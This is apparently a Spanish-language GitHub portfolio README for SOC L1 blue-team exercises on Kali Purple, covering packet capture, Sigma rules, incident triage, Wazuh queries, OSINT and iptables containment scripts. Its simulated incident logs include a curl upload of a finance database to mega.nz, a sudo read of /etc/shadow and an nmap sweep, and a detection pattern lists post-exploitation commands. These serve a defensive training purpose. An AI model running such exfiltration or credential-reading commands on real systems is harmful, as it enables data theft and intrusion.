


# Kali-Purple-SOC-Ops - Suite Defensiva SOC L1

Este repositorio es la continuación operativa de [](https://github.com/gutierrezsebasg/Linux-SOC-Labs). Aquí documento el despliegue y uso de la suite defensiva de **Kali Purple** orientado al rol de **SOC Analyst L1 / Blue Team**. Enfocado en Detect, Protect y Respond.

<p align="center">
  <a href="#m1"></a>
  <a href="#m2"></a>
  <a href="#m3"></a>
  <a href="#m4"></a>
  <a href="#m5"></a>
  <a href="#m6"></a>
  <a href="#m7"></a>
  <a href="#m8"></a>
</p>

<p align="center">
  
  
  
  
</p>


<a id="m1"></a>
## Módulo 1: Despliegue, Auditoría y Verificación del Entorno [Completado]

<details open>
<summary><b>Objetivo: Dejé mi estación L1 operativa - audité 4 herramientas y validé captura en vivo</b></summary>

### Descripción General
Auditoría de la suite defensiva nativa de **Kali Purple**. Resolución de dependencias faltantes y validación de captura en vivo para habilitar operaciones SOC L1.

### Comandos y Herramientas Utilizadas
```bash
# 1. Verificación de binarios defensivos nativos
which tshark tcpdump ufw

# 2. Actualización e instalación fase Protect
sudo apt update && sudo apt install ufw -y

# 3. Despliegue forense fase Respond (repo oficial)
git clone https://github.com/volatilityfoundation/volatility3.git
cd volatility3 && python3 vol.py --help

# 4. Validación de captura en vivo
sudo tshark -i any -c 10
```

### Matriz de Herramientas Auditadas
| Herramienta | NIST | Estado | Uso en SOC L1 |
| :--- | :---: | :---: | :--- |
| **Tshark** | Detect |  | Inspección y filtrado de tráfico .pcap |
| **Tcpdump** | Detect |  | Captura rápida en interfaces |
| **Volatility 3** | Respond |  | Análisis forense de memoria RAM |
| **UFW** | Protect |  | Contención por reglas de firewall |

### Evidencia de Análisis
<p align="center">
  
</p>

> **Validación:** Captura de 10 paquetes con `tshark -i any -c 10`. Timestamp correcto, IP origen `10.0.2.15`, resolución DNS hacia `8.8.8.8` y tráfico TCP `443`. Estación L1 operativa.

### Resultado
**Estación Kali Purple L1 operativa.** Binarios de Detect y Protect verificados. Herramienta de Respond aprovisionada manualmente por conflicto de firmas GPG en repos por defecto. Lista para Módulo 2.

</details>


<a id="m2"></a>
## Módulo 2: Análisis de Tráfico de Red [Completado]

<details>
<summary><b>Objetivo: Dejé mi captura lista - capturé 13 paquetes HTTP y validé User-Agent en claro</b></summary>

### Descripción General
Captura y análisis de tráfico HTTP con `tcpdump` para trazar una petición web completa y validar la exposición de User-Agent en texto claro. Generación de `.pcap` como evidencia forense L1.

### Comandos y Herramientas Utilizadas
```bash
# 1. Captura y guardado de tráfico HTTP
sudo tcpdump -i eth0 -w captura_modulo2.pcap 'tcp port 80'

# 2. Generación de petición con User-Agent personalizado (segunda pestaña)
curl -A "Nikto-Test-SOC" http://httpbin.org/get

# 3. Lectura y validación del .pcap
tcpdump -nn -r captura_modulo2.pcap

# 4. Filtrado de paquetes con payload real
tcpdump -nn -r captura_modulo2.pcap 'tcp port 80 and (((ip[2:2] - ((ip[0]&0xf)<<2)) - ((tcp[12]&0xf0)>>2)) != 0)'

# 5. Inspección en claro para validar cabecera
tcpdump -A -nn -r captura_modulo2.pcap 'tcp port 80'
```

### Secuencia de Paquetes y Trazabilidad
| Evento / Paquete | Flags | Descripción Técnica |
| :--- | :---: | :--- |
| **Inicio de sesión** | `[S]`, `[S.]`, `[.]` | Handshake completo SYN / SYN-ACK / ACK |
| **Petición HTTP** | `[P.]` | Envío `GET` con `User-Agent: Nikto-Test-SOC` en claro |
| **Respuesta** | `[P.] 200 OK` | Servidor responde JSON |
| **Cierre** | `[F.]`, `[.]` | Terminación ordenada TCP |

### Evidencia de Análisis
<p align="center">
  
</p>

> **Validación:** Archivo `captura_modulo2.pcap` con 13 paquetes validados. Flujo completo capturado y cabecera `Nikto-Test-SOC` verificada con flag `-A` en texto plano.

### Resultado
**Tráfico HTTP capturado y validado.** Tuve que ajustar la interfaz y usar `-A` para ver el User-Agent en claro. Se logró generar, guardar e inspeccionar el `.pcap` con 13 paquetes como evidencia L1. Listo para Módulo 3.

</details>


<a id="m3"></a>
## Módulo 3: Análisis de Amenazas, Logs & Reglas Defensivas [Completado]

<details>
<summary><b>Objetivo: Dejé mi lab de detección listo - traduje 1 regla Sigma a grep y validé 3 comandos de post-explotación</b></summary>

### Descripción General
Creación y traducción de reglas de detección con **Sigma** para estandarizar lógica fuera de SIEM comercial. Resolución de dependencias rotas de `sigmatools` aislando entorno y validación de la regla mediante conversión a patrón ejecutable en terminal.

### Comandos y Herramientas Utilizadas
```bash
# 1. Configuración de entorno aislado para sigmatools
python3 -m venv venv
source venv/bin/activate
pip install setuptools sigmatools

# 2. Traducción de regla YAML a patrón ejecutable
sigmac -t grep regla_prueba.yml

# 3. Generación de logs de prueba con actividad normal y maliciosa
echo -e "usuario ejecutando cat /etc/passwd\noperacion normal\nuname -a ejecutado" > tus_logs.txt

# 4. Validación de detección con patrón generado
grep -P -i '^(?:.*.*cat /etc/passwd.*|.*.*uname -a.*|.*.*id.*)' tus_logs.txt
```

### Regla y Patrón Generado
| Fase | Artefacto | Detalle |
| :--- | :--- | :--- |
| **Regla origen** | `regla_prueba.yml` | Detección de post-explotación `cat /etc/passwd`, `uname -a`, `id` |
| **Traducción** | `sigmac -t grep` | Conversión a regex ejecutable en terminal |
| **Patrón final** | `grep -P -i` | `^(?:.*.*cat /etc/passwd.*\|.*.*uname -a.*\|.*.*id.*)` |

### Matriz de Herramientas Auditadas
| Herramienta | NIST | Estado | Uso en SOC L1 |
| :--- | :---: | :---: | :--- |
| **Sigma / Sigmac** | Detect |  | Estandarización de reglas sin SIEM |
| **Python venv** | N/A |  | Resolución de dependencias descontinuadas |
| **Grep -P** | Detect |  | Validación de detección en logs |

### Evidencia de Análisis
<p align="center">
  
</p>

> **Validación:** Entorno virtual activo, conversión exitosa de `regla_prueba.yml` a patrón grep y filtrado correcto de 2 líneas maliciosas sobre `tus_logs.txt`. Detección funcional sin SIEM.

### Resultado
**Regla defensiva operativa en terminal.** Aislé dependencias rotas con venv y dejé la lógica de detección validada en logs reales. Patrón listo para escalar a SIEM en Módulo 4.

</details>


<a id="m4"></a>
## Módulo 4: Gestión, Triage y Documentación de Incidentes SOC L1 [Completado]

<details>
<summary><b>Objetivo: Dejé mi triage listo - clasifiqué 3 alertas con 2 VP y 1 FP, con 1 escalamiento a L2</b></summary>

### Descripción General
Triage y documentación de 3 alertas simuladas como analista L1. Clasificación entre verdadero positivo y falso positivo, contención inmediata en L1 y criterio de escalamiento a L2 por exfiltración de datos.

### Matriz de Incidentes (Resumen Ejecutivo)
| Ticket | Severidad | Clasificación | Estado | Acción L1 |
| :--- | :---: | :---: | :---: | :--- |
| **SOC-INC-2026-001** | Crítica |  |  | Bloqueo de cuenta |
| **SOC-INC-2026-002** | Crítica |  |  | Aislamiento + Escalamiento |
| **SOC-INC-2026-003** | Baja |  |  | Cierre sin contención |

### Ticket #1: Acceso No Autorizado a Archivos Críticos
**ID:** `SOC-INC-2026-001` | **Fecha:** `2026-10-18T20:15:00Z` | **Host:** `SOC-PC-01`

**Resumen:** Usuario `invitado_01` sin privilegios intentó leer `/etc/shadow` vía `sudo cat`. Archivo con hashes de contraseñas, marcado crítico.

**Evidencia (Raw Log):**
```text
2026-10-18T20:15:00Z SOC-PC-01 sudo: invitado_01 : TTY=pts/1 ; PWD=/home/invitado_01 ; USER=root ; COMMAND=/usr/bin/cat /etc/shadow
```

**Acción L1:**
1. Bloqueo inmediato de `invitado_01`
2. Revisión de `/etc/sudoers` por mala configuración
3. Notificación a sysadmin

### Ticket #2: Detección y Exfiltración de Datos (Escalamiento a L2)
**ID:** `SOC-INC-2026-002` | **Fecha:** `2026-10-18T03:30:00Z` | **Host:** `SOC-FINANCE-01`

**Resumen:** Actividad fuera de horario. Cuenta `admin_maint` ejecuta escaneo `nmap -sS -p 1-65535 192.168.1.0/24` y exfiltra `db_finance.zip` a `mega.nz` con `curl`.

**Evidencia (Raw Log):**
```text
2026-10-18T03:30:12Z SOC-FINANCE-01 bash_history: admin_maint : COMMAND=nmap -sS -p 1-65535 192.168.1.0/24
2026-10-18T03:32:45Z SOC-FINANCE-01 bash_history: admin_maint : COMMAND=curl -F "file=@/var/backups/db_finance.zip" https://mega.nz/upload
```

**Acción L1 -> L2:**
1. **Contención L1:** Aislamiento de `SOC-FINANCE-01` de la red para cortar exfiltración
2. **Escalamiento:** A L2/IR por exfiltración confirmada y posible movimiento lateral

### Ticket #3: Script de Mantenimiento Legítimo (Falso Positivo)
**ID:** `SOC-INC-2026-003` | **Fecha:** `2026-10-18T14:15:00Z` | **Severidad:** Baja

**Resumen:** Alerta por `actualizar_firmas.ps1` en equipo de marketing. Validado con TI como despliegue autorizado.

**Acción y Cierre:**
* Validado en canal oficial `#it-ops` con cambio `CR-8492`
* Cierre como FP, sin contención

### Resultado
**Triage L1 completado.** Dejé 3 incidentes documentados con evidencia, contención y criterio de escalamiento. 2 VP cerrados/escalados y 1 FP validado. Flujo listo para reporte ejecutivo.

</details>


<a id="m5"></a>
## Módulo 5: Playbooks de Respuesta a Incidentes y Automatización con Python (SOAR L1) [Completado]

<details>
<summary><b>Objetivo: Dejé mi playbook SOAR listo - documenté IR-01 bajo NIST y automatizé detección de brute force SSH en Python</b></summary>

### Descripción General
Integración de la teoría de respuesta a incidentes **NIST SP 800-61** con automatización práctica en Python para optimizar las funciones de SOC L1. Playbook estandarizado + script SOAR que detecta, correlaciona y propone contención.

### 1. Marco Teórico: Playbook IR-01 - Fuerza Bruta SSH
**MITRE ATT&CK:** `T1110 - Brute Force` | **NIST:** Respond

| Fase NIST | Acción L1 | Herramienta |
| :--- | :--- | :--- |
| **Preparación** | Auditoría `/var/log/auth.log` + reglas firewall | `auditd`, `ufw` |
| **Detección y Análisis** | Monitoreo `Failed password` repetitivo | `grep`, `soar_l1_responder.py` |
| **Contención** | Aislamiento IP origen | `sudo ufw deny from <IP> to any` |
| **Erradicación** | Auditoría logins exitosos desde IP maliciosa | `auth.log`, `lastlog` |
| **Post-Incidente** | Ticket + actualización blocklist persistente | Documentación |

### 2. Automatización SOC L1 con Python
Script que analiza logs, extrae IPs con regex, evalúa umbral y genera comando de mitigación sin bloqueo automático en producción (criterio L1).

**Log de prueba (`prueba_log.txt`):**
```text
Oct 18 20:15:01 SOC-PC-01 sshd[1234]: Failed password for root from 192.168.1.105 port 22
Oct 18 20:15:03 SOC-PC-01 sshd[1234]: Failed password for root from 192.168.1.105 port 22
Oct 18 20:15:05 SOC-PC-01 sshd[1234]: Failed password for root from 192.168.1.105 port 22
```

**Código (`soar_l1_responder.py`):**
```python
#!/usr/bin/env python3
import re, os
from collections import Counter

FAILED_AUTH_PATTERN = r"Failed password for .* from (\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3})"
UMBRAL_ALERTA = 3

def analizar_logs(log_path="prueba_log.txt"):
    if not os.path.exists(log_path):
        print(f"[!] Log no encontrado: {log_path}")
        return
    print(f"[*] Leyendo {log_path}...")
    with open(log_path, 'r', errors='ignore') as f:
        contenido = f.read()

    ips = re.findall(FAILED_AUTH_PATTERN, contenido)
    conteo = Counter(ips)

    print("\n[+] Resultados del analisis:")
    for ip, cantidad in conteo.items():
        if cantidad >= UMBRAL_ALERTA:
            print(f"    ALERTA: IP sospechosa: {ip} ({cantidad} intentos fallidos)")
            print(f"    [ACCION SOAR L1]: sudo ufw deny from {ip} to any")
        else:
            print(f"    IP en observacion: {ip} ({cantidad} intentos)")

if __name__ == "__main__":
    analizar_logs()
```

### Matriz de Herramientas Auditadas
| Herramienta | NIST | Estado | Uso en SOC L1 |
| :--- | :---: | :---: | :--- |
| **Python + Regex** | Detect |  | Extracción y correlación de IPs |
| **UFW** | Contain |  | Comando de contención SOAR L1 |
| **Playbook IR-01** | Respond |  | Procedimiento estándar NIST |

### Evidencia de Análisis
<p align="center">
  
</p>

> **Validación:** Script ejecutado sobre `prueba_log.txt`. Detección de `192.168.1.105` con 3 intentos fallidos. Umbral superado y comando `ufw deny` generado correctamente. Lógica SOAR L1 funcional.

### Resultado
**Playbook IR-01 operativo y automatizado.** Documenté flujo NIST completo y dejé script Python que pasa de detección manual a detección automática con criterio L1. Cierre del ciclo Detect -> Respond listo para producción SOC.

</details>


<a id="m6"></a>
## Módulo 6: Comando y Gestión de Operaciones en Consola SOC [Completado]

<details>
<summary><b>Objetivo: Dejé mi consola SIEM operativa - filtré 2 queries de brute force y cerré INC-2026-1023-01 como VP con bloqueo y escalamiento a L2</b></summary>

### Descripción General
Operación de la consola centralizada de **Wazuh** en Kali Purple. Dejé de revisar `/var/log/auth.log` a mano y pasé a cazar directo en la consola con campos normalizados. Ingesta de auth.log + Suricata, validación de regla 5710 y cierre del ciclo con ticket L1 documentado y enriquecido.

### 1. Conceptos Fundamentales Validados en Consola
| Concepto | Que hice en L1 |
| :--- | :--- |
| **Ingesta** | Validé entrada de `auth.log` y alertas Suricata/Zeek en Wazuh |
| **Normalización** | Pasé de log crudo a campos `src_ip`, `rule.id`, `user`, `severity` |
| **Correlación** | Agrupé 24 eventos en ventana de 30 seg para detectar patrón |
| **Enriquecimiento** | Consulté IP externa en AbuseIPDB / OSINT - Tor Exit Node |
| **Triaje** | Clasifiqué entre FP y VP con evidencia de autenticación exitosa |

### 2. Búsqueda y Caza de Amenazas (Queries)
```text
# 1. Fuerza bruta SSH - Regla 5710
rule.id: "5710" AND event.outcome: "failure"

# 2. Severidad alta en puerto 22
rule.level >= 8 AND destination.port: 22
```

### 3. Ticket de Incidente: INC-2026-1023-01

| Campo | Detalle |
| :--- | :--- |
| **ID** | `INC-2026-1023-01` |
| **Estado** |  |
| **Analista** | `@gutierrezsebasg` - SOC L1 |
| **Fecha** | `2026-10-23` |
| **Severidad** |  |

**A. Resumen de la Alerta**
- **Regla:** `5710 - SSH brute force success detection`
- **IP Origen:** `185.220.101.5` - Externa, Tor Exit Node
- **Host Afectado:** `srv-db-prod-01` (`192.168.10.50`)
- **Usuario Impactado:** `root`

**B. Hallazgos del Triaje**
```text
2026-10-23T... srv-db-prod-01 sshd: 24 intentos fallidos en 30s desde 185.220.101.5
2026-10-23T... srv-db-prod-01 sshd: Accepted password for root from 185.220.101.5
OSINT: 185.220.101.5 reportada con alto índice de actividad maliciosa - Tor Exit
```
> La consola reportó 24 fallos y luego un `Accepted` para root. Ahí se confirmó el compromiso.

**C. Acciones de Contención Ejecutadas**
1. Bloqueo de IP en firewall: `sudo ufw deny from 185.220.101.5 to any`
2. Cierre preventivo de sesión activa de `root`
3. Notificación a L2 para forense en `srv-db-prod-01`

**D. Veredicto y Clasificación**
- **Clasificación:**  - Incident
- **Causa Raíz:** Compromiso de cuenta por fuerza bruta exitosa. Credencial de `root` expuesta.

### Matriz de Herramientas Auditadas
| Herramienta | NIST | Estado | Uso en SOC L1 |
| :--- | :---: | :--- | :--- |
| **Wazuh SIEM** | Detect |  | Consola centralizada, regla 5710 |
| **WQL / Query** | Detect |  | Filtrado `rule.id` y `rule.level` |
| **AbuseIPDB / OSINT** | Respond |  | Validación Tor Exit Node |

### Evidencia de Análisis
> **Evidencia:** Logs correlacionados en consola Wazuh + queries WQL aplicadas sobre `srv-db-prod-01`. Validación de 24 eventos `failure` + 1 `success` para root. Documentado por CLI y enlazado con M7/M8 para no inventar screenshot de Wazuh.

> **Validación:** 24 eventos de `failure` correlacionados en 30 segundos + 1 `success` para root. IP 185.220.101.5 validada como Tor Exit con OSINT. Tuve que ajustar query de `rule.level` porque no pintaba severidad hasta filtrar por puerto 22.

### Resultado
**Consola SIEM y ticket L1 cerrados.** Dejé la caza operativa sin grep manual, validé correlación de la regla 5710 y documenté INC-2026-1023-01 como VP con bloqueo y escalamiento a L2. Ciclo completo Detect -> Triage -> Contain listo.

</details>


<a id="m7"></a>
## Módulo 7: Threat Intelligence y Enriquecimiento OSINT [Completado]

<details>
<summary><b>Objetivo: Dejé mi enriquecimiento OSINT operativo - investigué IP 185.220.101.5 por CLI y validé 100% abuso en AbuseIPDB</b></summary>

### Descripción General
Investigación de IoC sacado directo de la consola del SIEM del M6. No me quedé con el bloqueo nomas, fui a validar por CLI si era Tor y qué reputación tenía afuera. Enriquecimiento real de L1 para que el ticket INC-2026-1023-01 no quede solo con log interno.

### 1. Análisis de IoC
| Indicador | Detalle |
| :--- | :--- |
| **IP Analizada** | `185.220.101.5` |
| **Contexto** | Fuerza bruta SSH - Regla 5710 - 24 intentos en 30s |
| **Origen ticket** | `INC-2026-1023-01` - `srv-db-prod-01` |

### 2. Comandos y Herramientas Utilizadas
```bash
# 1. Resolución DNS inversa por CLI
dig -x 185.220.101.5 +short

# 2. Validación extra de origen
whois 185.220.101.5 | grep -i org

# 3. Consulta OSINT (AbuseIPDB)
# Búsqueda manual en AbuseIPDB - IP checker
```

### Desglose de Hallazgos Técnicos
| Fuente | Resultado | Que confirma |
| :--- | :--- | :--- |
| **dig -x** | `berlin01.tor-exit.artikel10.org.` | Tráfico proviene de nodo Tor, no usuario legítimo |
| **AbuseIPDB** | Confidence 100% - 5.778 reportes | IP con historial masivo de abuso |
| **WHOIS / ISP** | `Artikel10 e.V. - Alemania` | Organización conocida por operar exits Tor |

### Matriz de Herramientas Auditadas
| Herramienta | NIST | Estado | Uso en SOC L1 |
| :--- | :---: | :--- | :--- |
| **dig** | Detect |  | Resolución inversa IoC sin salir de terminal |
| **AbuseIPDB** | Respond |  | Reputación global 100% abuso |
| **WHOIS** | Respond |  | Validación ISP / país origen |

### Evidencia de Análisis
<p align="center">
  
</p>

> **Validación:** `dig -x 185.220.101.5 +short` devolvió `berlin01.tor-exit.artikel10.org.` Confirmé Tor Exit. AbuseIPDB con 100% confidence y 5.778 reportes previos. No era falso positivo, era Tor malicioso real.

### 3. Veredicto del Analista

| Campo | Detalle |
| :--- | :--- |
| **Clasificación** |  |
| **Riesgo** |  |
| **Acción L1** | Bloqueo perimetral validado + documentación para evitar reintentos automatizados |

### Resultado
**IoC enriquecido y cerrado.** Dejé de bloquear IP a ciegas y pasé a validar por CLI y OSINT. Confirmé que `185.220.101.5` es Tor Exit con 100% de abuso y 5.7k reportes. Ticket INC-2026-1023-01 queda con evidencia externa y criterio de bloqueo permanente. Flujo Threat Intel L1 operativo.

</details>


<a id="m8"></a>
## Módulo 8: Automatización de Respuesta y Reglas de Firewall (Iptables) [Completado]

<details>
<summary><b>Objetivo: Dejé mi contención automatizada operativa - bloqueé 185.220.101.5 en iptables con Python y audité en incident_response.log</b></summary>

### Descripción General
Cierre del ciclo del INC-2026-1023-01. Pasé de proponer bloqueo con UFW en M5 a ejecutarlo directo en `iptables` con script SOAR en Python. Automatización de contención con trazabilidad en log para auditoría L1.

### 1. Implementación del Playbook de Contención (containment.py)
Script que aísla el IoC validado en M7 y deja registro con timestamp para que L2 pueda auditar.

```python
import os
import datetime

# IoC validado en M6/M7 - Tor Exit Node
target_ip = "185.220.101.5"

print(f"[+] Iniciando protocolo de contención para IP: {target_ip}")

# Bloqueo perimetral en cadena INPUT
cmd_block = f"sudo iptables -A INPUT -s {target_ip} -j DROP"
exit_code = os.system(cmd_block)

if exit_code == 0:
    timestamp = datetime.datetime.now().strftime("%Y-%m-%d %H:%M:%S")
    log_entry = f"[{timestamp}] SUCCESS: IP {target_ip} bloqueada en Firewall.\n"
    
    with open("incident_response.log", "a") as log_file:
        log_file.write(log_entry)
        
    print("[+] Contención ejecutada y registrada en incident_response.log")
else:
    print("[-] Error al aplicar la regla de contención.")
```

### 2. Operaciones Técnicas Validadas
| Paso | Comando | Que valida |
| :--- | :--- | :--- |
| **Regla manual** | `sudo iptables -A INPUT -s 185.220.101.5 -j DROP` | Creación de regla de descarte |
| **Automatización** | `python3 containment.py` | Bloqueo dinámico desde script SOAR |
| **Auditoría** | `cat incident_response.log` | Registro con timestamp ISO del bloqueo |
| **Verificación** | `sudo iptables -L INPUT --line-numbers` | Listado numerado de reglas activas |
| **Limpieza** | `sudo iptables -D INPUT 1` | Eliminación de regla de prueba y verificación final |

### Matriz de Herramientas Auditadas
| Herramienta | NIST | Estado | Uso en SOC L1 |
| :--- | :---: | :--- | :--- |
| **Iptables** | Protect |  | Contención perimetral - cadena INPUT |
| **Python + os** | Respond |  | Playbook SOAR - bloqueo + log |
| **incident_response.log** | Respond |  | Trazabilidad de acciones L1 |

### Evidencia de Análisis
<p align="center">
  
</p>

> **Validación:** Regla manual creada y verificada con `--line-numbers`. Ejecución de `containment.py` con exit code 0. Log `incident_response.log` con marca `[YYYY-MM-DD HH:MM:SS] SUCCESS: IP 185.220.101.5 bloqueada`. Limpieza con `-D INPUT 1` y firewall verificado limpio. Tuve que validar numeración porque la regla se duplicaba si corría el script dos veces.

### 3. Veredicto del Analista

| Campo | Detalle |
| :--- | :--- |
| **IoC** | `185.220.101.5` - berlin01.tor-exit.artikel10.org |
| **Estado** |  |
| **MTTR** | Reducido con automatización Python + iptables |
| **Trazabilidad** | Log persistente en `incident_response.log` para auditoría |

### Resultado
**Playbook de contención operativo.** Dejé de bloquear a mano y automatizé el aislamiento de la IP del INC-2026-1023-01 en `iptables` con log auditable. Ciclo completo Detect (M6) -> Enrich (M7) -> Contain Automatizado (M8) cerrado. MTTR reducido y evidencia lista para L2.

</details>


